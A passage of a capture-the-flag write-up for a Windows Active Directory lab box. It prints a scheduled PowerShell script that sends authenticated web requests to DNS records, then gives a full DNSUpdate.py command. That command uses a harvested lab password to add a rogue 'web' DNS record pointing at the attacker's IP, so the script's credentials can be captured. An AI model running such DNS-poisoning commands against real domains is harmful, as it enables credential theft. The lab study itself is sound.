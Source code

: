 We find a `downdetector.ps1` inside the IT share

We also find the user.txt in the Users share that we can submit later on

```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}

```

The script appears to be using it's credentials to make a web request to each DNS record

We can Add/modify/delete Active Directory Integrated DNS records via LDAP: https://github.com/Sagar-Jangam/DNSUpdate


We can add a DNS record:
```bash
python3 DNSUpdate.py -u 'intelligence\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -a ad -r webma1ware -d 10.10.16.22 -DNS 10.129.156.112
```

!["Updating DNS entry"](assets/dnsupdate.png)
